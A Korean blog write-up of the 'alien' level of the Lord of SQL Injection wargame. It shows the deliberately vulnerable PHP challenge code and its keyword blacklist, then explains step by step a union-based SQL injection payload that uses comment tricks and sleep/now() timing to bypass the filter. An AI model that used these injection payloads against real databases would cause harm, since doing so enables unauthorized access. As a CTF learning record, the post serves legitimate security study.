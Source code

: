 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - alien 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


와 드디어 `Lord of SQL Injection`을 `All Clear` 했다.  

신난다!!  

마지막 문제의 이름은 `alien`이다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_alien where no=
-------------------------------------------------------------

-------------------------------------------------------------
query2 : select id from prob_alien where no=''
-------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

예전에 뭔가 `POXX`에서 비슷한 문제가 있었던 것 같은데 잘 기억이 안난다.  

`Write-up`도 어딘가에 있을 것 같은데 못찾겠다.  

문제를 풀기 위해서는 총 4개의 `조건문`을 통과해야 한다.  

1. result !== "admin" : 결과 값이 admin이 아니면 exit => admin 이어야 함 
2. result === "admin" : 결과 값이 admin이면 exit => admin이 아니어야 함  
3. result === "admin" : 결과 값이 admin이면 exit => admin이 아니어야 함  
4. result === "admin" : 결과 값이 admin이면 solve => admin 이어야 함  

1번과 2번은 `no`에 `싱글쿼터`가 없지만, 3번과 4번 조건문에서는 `싱글쿼터`가 존재한다.  

싱글쿼터가 없을 때와 있을 때를 우회 해 원하는 값을 뽑는 것은 생각보다 쉽다.  

```
?no=1 union select 1#' union select '1
```

위와 같이 입력하면 완성되는 `$query`와 `$query2`는 다음과 같다.  

```
$query1 : select id from prob_alien where no=1 union select 1#' union select '1
```

```
$query2 : select id from prob_alien where no='1 union select 1#' union select '1'
```

첫 번째 쿼리의 경우, `#`이 주석 처리 되기 때문에 `#` 이후의 `' union select '1`은 체크하지 않는다.  

반면 두 번째 쿼리에서는 `1 union select 1#` 까지가 `no`의 값으로 들어가기 때문에 `#` 이후의 `union select '1'`이 실행된다.  

여기까진 쉽게 알아냈는데, 문제는 한 쿼리문으로 어쩔 때는 `admin`이어야 하고 어쩔 때는 `admin`이면 안되는 쿼리문을 만들어야 하는 것이었다.  

이것도 주변에 물어봐서 풀 수 있었는데, 바로 `시간`을 활용하면 됬다.  

```
?no=1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#
```

먼저 첫 번째 쿼리를 살펴보면 다음과 같다.  

`!sleep(1)&&now()%2=1` 은 현재 시간에 따라서 `0` 혹은 `1`을 반환 해 준다.  

이 후, `hex(10 + 0 OR 1)`이 되는데, 이 때 `hex(10)`은 `A`가, `hex(11)`은 `B`가 된다.  

이를 `lower()`를 통해 소문자로 바꾼 후, `concat()`을 통해서 `0x646d696e`와 합친다.  

`0x646d696e`는 `dmin`이므로, 최종적인 결과 값은 시간에 따라서 `admin` 혹은 `bdmin`이 될 것이다.  

`sleep(1)`을 걸어서 첫 번째가 `0`이라면 바로 다음 두번째로 쿼리를 실행할 때는 `1`이 나오도록 했다.  

두 번째 쿼리에서는 `hex(10+`가 아니라 `hex(9+`를 했다.  

나와야 하는 결과 값을 살펴보면 순서대로 `hex(10) -> hex(11) -> hex(11) -> hex(10)`이다.  

하지만 계속해서 `sleep(1)`을 실행하게 되면 무조건 `hex(10) -> hex(11) -> hex(10) -> hex(11)` 혹은 `hex(11) -> hex(10) -> hex(11) -> hex(10)`이 나오게 된다.  

여기서 `hex(10)`만 제대로 나오면 되고 `hex(11)`은 다른 값이 나와도 상관 없으므로, 두 번째 쿼리에서 `hex(9+`로 바꿔 주어 `hex(10) -> hex(11) -> hex(9) -> hex(10)`이 나오게 했다.  

그러면 나오는 결과는 순서대로 `admin -> bdmin -> 9dmin -> admin`이 되어 문제를 풀 수 있다.  

다만, 처음 쿼리를 실행할 때 `admin`이 나올 수 있는 시간이어야 하므로 바로 한 번에 문제가 풀리지는 않는다.  

```php
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select id from prob_alien where no=1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query2 : select id from prob_alien where no='1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#'
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

ALIEN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

`ALIEN Clear!!`

드디어 `Lord of SQL Injection`을 `ALL Clear` 했다!  

아 너무 뿌듯하다 ㅠㅠ  

모르는게 너무 많아서 주변에 많이 물어보면서 풀었는데, 이 부분이 좀 아쉽다.  

더 열심히 공부해서 아무한테도 안물어보고 문제를 슝슝 풀 수 있게 되었으면 좋겠다!  

이제 풀다 말았던 `pwnable.kr`을 다시 풀어야 겠다. ㅎㅎ  

`Load of SQL Injection All Clear!!`  

![](/images/los/alien/alien_01.png)
